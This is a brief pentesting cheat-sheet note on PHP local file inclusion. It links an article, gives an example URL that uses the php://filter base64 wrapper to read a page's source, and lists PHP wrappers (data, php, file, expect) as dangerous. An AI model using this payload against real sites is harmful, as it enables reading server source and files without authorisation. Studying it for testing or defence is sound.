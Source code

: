 #

## php filter

https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/

```
http://example.com/?m=php://filter/convert.base64-encode/resource=index
```

## wrappers

see php wrappers

dangerous : 

- data
- php
- file, http, ftp
- expect <-- cmd injection

